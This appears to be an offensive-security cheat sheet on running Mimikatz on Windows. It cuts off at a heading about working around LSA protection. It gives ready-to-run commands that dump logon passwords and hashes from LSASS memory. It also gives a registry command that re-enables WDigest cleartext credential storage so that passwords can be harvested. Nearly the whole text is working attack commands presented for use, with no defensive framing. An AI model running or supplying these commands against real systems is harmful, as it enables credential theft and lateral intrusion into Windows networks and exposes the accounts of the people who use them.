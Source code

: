 # Windows - Mimikatz

![Data in memory](http://adsecurity.org/wp-content/uploads/2014/11/Delpy-CredentialDataChart.png)

## Execute commands

Only one command

```powershell
PS C:\temp\mimikatz> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

Mimikatz console (multiple commands)

```powershell
PS C:\temp\mimikatz> .\mimikatz
mimikatz # privilege::debug
mimikatz # log
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
```

## Extract passwords

> Microsoft disabled lsass clear text storage since Win8.1 / 2012R2+. It was backported (KB2871997) as a reg key on Win7 / 8 / 2008R2 / 2012 but clear text is still enabled.

```powershell
mimikatz_command -f sekurlsa::logonPasswords full
mimikatz_command -f sekurlsa::wdigest

# to re-enable wdigest in Windows Server 2012+
# in HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest 
# create a DWORD 'UseLogonCredential' with the value 1.
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /f /d 1
```

:warning: To take effect, conditions are required :

- Win7 / 2008R2 / 8 / 2012 / 8.1 / 2012R2:
    - Adding requires lock
    - Removing requires signout
- Win10:
    - Adding requires signout
    - Removing requires signout
- Win2016:
    - Adding requires lock
    - Removing requires reboot

## LSA Protection Workaround

- LSA as a Protected Process (RunAsPPL)
    